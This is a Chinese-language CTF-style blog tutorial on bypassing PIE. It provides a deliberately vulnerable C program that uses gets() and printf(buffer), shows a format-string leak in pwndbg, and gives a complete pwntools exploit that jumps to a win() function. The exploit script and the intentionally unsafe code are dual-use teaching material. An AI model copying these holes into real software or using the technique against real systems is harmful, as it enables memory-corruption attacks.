 ```yaml
---
title: 通过格式化字符串绕过 PIE
subtitle: 无已知地址绕过 PIE
date: 2023-08-22T11:38:27+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


通过格式化字符串绕过 PIE

<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/pie-fmtstr.zip" content="pie-fmtstr.zip" title="Download pie-fmtstr.zip" download="pie-fmtstr.zip" card=true >}}

```c {title="source.c"}
#include <stdio.h>

void vuln() {
  char buffer[20];

  printf("What's your name?\n");
  gets(buffer);
  
  printf("Nice to meet you ");
  printf(buffer);
  printf("\n");

  puts("What's your message?");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

与上篇文章不同的是，这次我们没有得到任何一个函数的绝对地址。我们必须使用其它
手段来泄漏它。

## 0x02 分析

```
$ ./vuln-32
What's your name?
%p
Nice to meet you 0xf7f3e000
What's your message?
hello
```

测试发现可以使用格式化字符串来泄漏地址。

## 0x03 利用

### 1x01 基础信息

和上次一样，我们首先设置好一些基本内容。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

### 1x02 泄漏 PIE

现在我们只需要泄漏地址就好了。我们可以在 `pwndbg` 里面尝试一些不同的偏移量来测试。

```
$ pwndbg vuln-32
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7fc6000 (nil) 0x565561d5 (nil) (nil)
What's your message?
hello
```

第 3 个看起来像一个函数的地址，让我们检查一下第 3 个泄漏值和基地址之间的差异。
在格式化字符串泄漏的值之后的某个位置设置一个断点（在哪里并不重要）。

你也可以直接把断点下在泄漏的这个值上面，设这个断点只是为了能够让我们调试程序。

```
$ pwndbg vuln-32
$ r
What's your name?
%3$p
Nice to meet you 0x565561d5
[...]
$ b *0x565561d5
Breakpoint 1 at 0x565561d5
$ r
[...]
$ vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
0x56555000 0x56556000 r--p     1000      0 vuln-32
0x56556000 0x56557000 r-xp     1000   1000 vuln-32
[...]
```

我们可以看到基地址是 `0x56555000` ，泄漏的值是 `0x565561d5` 。因此，从泄漏的
地址中减去 `0x11d5` 就会得到二进制文件的基地址。

{{<admonition type="tip">}}

可以通过 `vmmap` 指令来查看程序运行的基地址。

对于没有开启 PIE 的程序，直接用 `checksec` 也可以看到基地址。

{{</admonition>}}

```python
p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')
```

现在，我们只需要发送 payload 就可以了。

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

### 1x03 最终 Exploit

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

同样的思路，只是 64-bit。试试看 :)

{{< link href="/pwn_assets/pie-fmtstr-64.zip" content="pie-fmtstr-64.zip" title="Download pie-fmtstr-64.zip" download="pie-fmtstr-64.zip" card=true >}}

